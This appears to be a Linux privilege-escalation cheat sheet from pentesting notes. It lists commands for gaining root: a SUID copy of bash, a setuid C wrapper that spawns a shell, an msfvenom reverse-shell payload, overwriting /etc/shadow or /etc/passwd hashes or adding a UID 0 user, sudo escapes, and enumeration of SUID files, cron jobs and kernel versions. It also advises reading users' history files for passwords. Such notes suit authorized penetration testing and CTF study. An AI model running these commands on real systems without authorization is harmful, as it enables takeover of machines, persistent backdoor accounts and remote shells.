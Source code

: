 # Privilege escalation

## Spawning root shell

### Rootbash

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
/tmp/rootbash -p
```

### Executable

Create bash wrapper in c

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Then, compile it as a root

```text
gcc -o <out_file> <source_code>
```

### Msfvenom executable

Create msfvenom payload, then execute as a root.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

### Native reverse shells

```text
https://github.com/mthbernardes/rsg
```

## Techniques

### Kernel exploits

Enumerate the kernel version:

```text
uname -a 
cat /etc/issue
```

Use searchsploit to find matching exploits:

```text
searchsploit linux kernel <version> priv esc

# or you can use https://github.com/jondonas/linux-exploit-suggester-2
./linux-exploit-suggester-2.pl -k <version>
```

### Service exploits

Show processes running as root:

```text
ps aux | grep "^root"
netstat -nl
```

Enumerate program versions:

```text
<service> -v
<service> --version
dpkg -l | grep <service>
rpm -qa | grep <service>
```

Search for exploits

### Weak file permissions

```text
# Find all writable files in /etc: 
find /etc -maxdepth 1 -writable -type f

# Find all readable files in /etc: 
find /etc -maxdepth 1 -readable -type f

# Find all directories which can be written to:
find / -executable -writable -type d 2> /dev/null
```

#### /etc/shadow

1. Crack root hash.
2. Replace original hash with new:

```text
mkpasswd -m sha-512 <newpassword>
```

#### /etc/passwd

1. Delete `x` , works on older systems.
2. Replace `x` with new password hash generated by `openssl passwd "<newpassword>"` .
3. Append new user with UID 0, but different username.

### Backups

Look for interesting files:

```text
ls -la /
ls -la /tmp
ls -la /var/backups
```

### Sudo

```text
# Run a program using sudo:
sudo <program>

# Run a program as a specific user: 
sudo -u <user> <program>

# List programs a user is allowed (and disallowed) to run:
sudo -l
```

Other ways to escalate privileges with sudo:

```text
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

Shell escape sequences for more programs can be found here:

```text
https://gtfobins.github.io/
```

### Cron jobs

Located in:

```text
/var/spool/cron/
/var/spool/cron/crontabs/
/etc/crantab
```

The crontab PATH environment variable is by default set to `/usr/bin:/bin`

### SUID / SGID files

```text
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
find / -user <user> -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

```text
https://github.com/Anon-Exploiter/SUID3NUM
```

```text
# Running strings against a file:
strings <file>

# Running strace against a command:
strace -v -f -e execve <command> 2>&1 | grep exec

# Running ltrace against a command:
ltrace <command>
```

## Privesc strategy

Spend some time and read over the results of your enumeration.

If Linux Smart Enumeration level 0 or 1 finds something interesting, make a note of it. Create a checklist of things you need for the privilege escalation method to work.

Have a quick look around for files in your user’s home directory and other common locations \(e.g. /var/backup, /var/logs\). If your user has a history file, read it, it may have important information like commands or even passwords.

Try things that don’t have many steps first, e.g. Sudo, Cron Jobs, SUID files.

Have a good look at root processes, enumerate their versions and search for exploits.

Check for internal ports that you might be able to forward to your attacking machine.

If you still don’t have root, re-read your full enumeration dumps and highlight anything that seems odd. This might be a process or file name you aren’t familiar with, an “unusual” filesystem configured \(on Linux, anything that isn’t ext, swap, or tmpfs\), or even a username.

At this stage you can also start to think about Kernel Exploits.

